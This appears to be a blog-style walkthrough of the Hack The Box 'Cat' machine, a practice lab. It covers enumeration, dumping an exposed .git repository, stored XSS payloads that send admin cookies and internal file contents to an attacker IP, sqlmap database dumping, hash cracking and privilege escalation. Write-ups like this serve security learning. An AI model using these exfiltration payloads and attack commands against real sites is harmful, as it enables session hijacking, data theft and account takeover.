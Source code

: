 ```yaml
---
title: name
date: 2025-05-02 14:00:00 +0200
categories: [Hack The Box, Linux0] 
tags: [Linux, priv-escalation, initial access, cat , XSS] 
toc: true
comments: true
image: ./assets/img/attachments/cat.png
imageNameKey: cat
---
```

In this writeup, I’ll be walking through the **Cat** machine from [Hack The Box](https://hackthebox.com), which is rated **Medium** in difficulty. This is the **fifth machine** I’m tackling as part of my journey to reach **1000 points**, and I’m documenting each step to reinforce my learning and help others in the community. The machine involves a mix of enumeration, web exploitation, and privilege escalation.
So lets start!
# Port Enumeration

I will start with scanning the most common ports
```bash
nmap -Pn -sV -F 10.10.11.53 -sC      
```
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 11:56 EDT
Nmap scan report for 10.10.11.53
Host is up (0.36s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://cat.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

I'll perform full port enumeration while taking a closer look at the HTTP service.
```bash
 sudo nmap -sS -Pn -p- 10.10.11.53 -A -n -T5
```
Got nothing new beyond what I found earlier.
## Content Discovery
```bash
ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 3

ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-files.txt -e /.git/ -mc all -fc 404

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-1.png)

As we can see, the `.git` repository is present — let's check if it's accessible.
```bash
curl -s http://cat.htb/.git/HEAD
curl -s http://cat.htb/.git/config
curl -s http://cat.htb/.git/index
curl -s http://cat.htb/.git/logs/HEAD

```
```bash
ref: refs/heads/master
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
0000000000000000000000000000000000000000 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5 Axel <axel2017@gmail.com> 1725146774 +0000       commit (initial): Cat v1
```
Now we will get those files using git_dumper.py
```bash
python3 git_dumper.py http://cat.htb/.git/ ./cat-source
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-2.png)

We got all application codes, so lets analyze them to find vulnerable injection point

# Gaining Access
![Whatever Alt Text You Want](/assets/img/attachments/cat-3.png)

Those are the parameters that are reflected in the page, and only **admins** can view them (at view_cat.php)

![Whatever Alt Text You Want](/assets/img/attachments/cat-4.png)

At contest.php: 4 parameters out pf five are filtered, but username doesn't

![Whatever Alt Text You Want](/assets/img/attachments/cat-5.png)

And here at join.php we can see that username is added without any checks or validations on the input and also we knew the hashing algorithm used for passwords (md5)
But since username isn't reflected for me and just at view_cat.php I will make admin trigger stored XSS to steal his cookies
```bash
python -m http.server 
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-12.png)

```
<script>
new Image().src = 'https://10.10.16.87/?c=' + document.cookie;
</script>
```

![Whatever Alt Text You Want](/assets/img/attachments/cat-8.png)
I add a cat and waited

![Whatever Alt Text You Want](/assets/img/attachments/cat-9.png)
I got admin cookie

![Whatever Alt Text You Want](/assets/img/attachments/cat-10.png)

Now we can see admin panel which is accept_cat.php

![Whatever Alt Text You Want](/assets/img/attachments/cat-11.png)

Which is vulnerable to SQLi, so i used sqlmap to dump all tables
```bash
sqlmap -u http://cat.htb/accept_cat.php --data="catId=1&catName=test" --cookie="PHPSESSID=admin php ssid" --level=5 --risk=3 --dbs -p catName --dbms=sqlite --tables --dump -T users --threads 9
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-13.png)
I couldn't crack axel password but was able to get rosa password
```bash
hashcat -m 0 -a 0 d1bbba3670feb9435c9841e46e60ee2f /usr/share/wordlists/rockyou.txt

```

![Whatever Alt Text You Want](/assets/img/attachments/cat-14.png)

I was able to connect to this user by ssh
![Whatever Alt Text You Want](/assets/img/attachments/cat-15.png)
using the same python server on my machine, I downloaded linpeas.sh on victim's machine.

![Whatever Alt Text You Want](/assets/img/attachments/cat-16.png)

After checking this one:
![Whatever Alt Text You Want](/assets/img/attachments/cat-17.png)

using this password i was able to increase my privileges
![Whatever Alt Text You Want](/assets/img/attachments/cat-18.png)
And we got user flag!
# Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachments/cat-19.png)

Lets check those ports
```bash
ssh -L 3000:127.0.0.1:3000 axel@cat.htb

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-20.png)

I found this website, and i logged in with axel's credentials, and the service version has exploits

![Whatever Alt Text You Want](/assets/img/attachments/cat-21.png)

```js
<a href="javascript:location.href='http://ip:8000?c='+document.cookie">XSS test</a>
```
But didn't work as the previous case where admin visits the page, something is missing

![Whatever Alt Text You Want](/assets/img/attachments/cat-22.png)
Lets check this one!
![Whatever Alt Text You Want](/assets/img/attachments/cat-23.png)

Mail must be sent to jobert, but we can see that this page doesn't have cookie header:
```js
<a href="javascript:alert(document.cookie)">Click me</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-24.png)

**You must upload any file on the created repo to procced!**
I wanted to validate that the admin views the repo as mentioned at the mail
```js
<a href="javascript:fetch('http://10.10.16.87:8000/?ping=1')">Test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-25.png)

And since  i couldn't access this page : http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md
```js
<a href="javascript:
fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md')
.then(r => r.text())
.then(d => fetch('http://ip:8000/?leak=' + btoa(d)))
">Click me</a>

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-26.png)
nothing important here
```
# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
```

I tried to get the content of the other files at this repo, couldn't list them, but after guessing (trial and error) i got the content of index.php
```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.16.87:8000/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-27.png)

![Whatever Alt Text You Want](/assets/img/attachments/cat-28.png)

I couldn't log in to administrator account with this password but it worked as root password!
![Whatever Alt Text You Want](/assets/img/attachments/cat-29.png)

**And done!**  
That was a tough one — definitely one of the more challenging tasks I've tackled. But every step was a learning opportunity, and I gained a lot of valuable insight along the way. Looking forward to applying these lessons in future challenges!
